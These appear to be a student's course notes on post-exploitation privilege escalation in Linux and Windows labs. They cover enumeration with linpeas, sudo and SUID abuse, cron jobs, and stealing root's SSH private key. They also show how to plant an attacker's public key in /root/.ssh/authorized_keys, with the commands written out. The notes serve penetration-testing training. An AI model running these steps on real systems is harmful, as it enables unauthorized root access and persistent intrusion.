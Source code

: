 Accessing the remote server, is usually context of a low privileged user, which would not give us complete access over the box. To gain full access, we will need to find an internal, local vulnerability that would escalate our privileges to the root user on Linux or the administrator/SYSTEM user on Windows. 

### PrivEsc Checklists
Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One is HackTricks, which has checklist for both linux and windows. Another is PayloadsAllTheThings, which also has checklists for both linux and windows.

### Enumeration Scripts
Many of the above commands may be automatically run with a script to go through the report and loos for any weakness. We can run many scripts to automatically enumerate the server by running common commands that return any interesting findings. 

For example in Linux,
```
./linpeas.sh
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMangenta: Your username


====================================( Basic information )=====================================
OS: Linux version 3.9.0-73-generic
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
...SNIP...
```
Once the script runs, it starts collecting information and displaying it in an excellent report. Let us discuss some of the vulnerabilities that we should look for in the output from these scripts. 

### Kernel Exploits
Whenever we encounter a server running an old operating system, we should start by looking for potential kernel vulnerabilities that may exist. Not updated server for example, might be vulnerable. 

### Vulnerable software
Installed software is another thing that needs to be looked after. We can use dpkg -l command on Linux or look at C:\Program Files in windows to see what software is installed on the system. We should look for public exploits for any installed software, especially if any older versions are in use, containing unpatched vulnerabilities. 

### User Privileges
Another critical aspect to look for after gaining access to a server is the privilege avaiable to the user we have access to. Suppose we are allowed to run specific commands as root. In that case, we may be able to escalate out privileges to root system users or gain access as a differennt user. Below are some common ways to exploit certain user privileges. 

Sudo, SUID, Windows Token Privileges

The sudo command in LInux allows a user to execute commands as a different user. It is usually used to allow lower privileged users to execute commands as root without giving them access to the root user. This is generally done as specific commands can only be run as root like tcpdump or allow the user to access certain root - only directories. We can check what sudo privileges we have with the sudo -l command. 
```
kwc0827@htb[/htb]$ sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```
The above output says that we can run all command with sudo, which gives us complete access, and we can use the su command with sudo to switch to the root users.
```
kwc0827@htb[/htb]$ sudo -l

    (user : user) NOPASSWD: /bin/echo
```
NOPASSWD entry shows that bin/echo command can be executed without a password. This would be useful if we gained access to the server through the vulnerability and did not have the users’s password. As it says user, we can run sudo as that user and not as root. To do so, we can specify the user with -u user. 
```
sudo -u user /bin/echo Hello World!
```
Once we find a particular application we can run with sudo, we can look for ways to exploit to get a shell as the root user. GTFOBins contains a list of command and how they can be exploited through sudo. We can search for the application we have sudo privilege over, and if it exists, it may tell us the exact command we should execute to gain root access using the sudo privilege we have. 

LOLBAS also contains a list of Windows application which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.

### Scheduled Tasks
In both Linux and Windows, there are methods to have scripts run at specific intervals to carry out a task. Some examples are having an anti-virus scan running every our or a back script that runs every 30 minutes. These are usually two ways to take advantage of scheduled tasks or cron jobs to escalate our privilege. 
1. Add new scheduled tasks / cron jobs
2. Trick them to execute a malicious software

## SSH Keys

If we have read across over the .ssh directory for a specific user, we may read their private ssh keys found in .ssh/id_rsa, and use it to login to the server. If we can read the /root/. Ssh/ directory and can read the id_rsa file, we can copy it to our machine and use the -i flag to log in with it.
```
vim id_rsa
chmod 600 id_rsa
ssh root@10.10.10.10 -i id_rsa
```
If we find ourselves with write access to a users/ .ssh/directory, we can place our public key in the user’s ssh directory at /home/user/. Ssh/authorized_keys. This technology is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with ssh-keygen and the -f flag to specify the output file. 

```
ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```
This will give us two files: key and key. Pub, which we will copy to the remote machine. Let us copy key. Pub, then on the remote machine, we will add it into /root/. Ssh/authorized_keys

```
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
Now the remote server should allow us to log in as that user by using our private key:
```
kwc0827@htb[/htb]$ ssh root@10.10.10.10 -i key
```

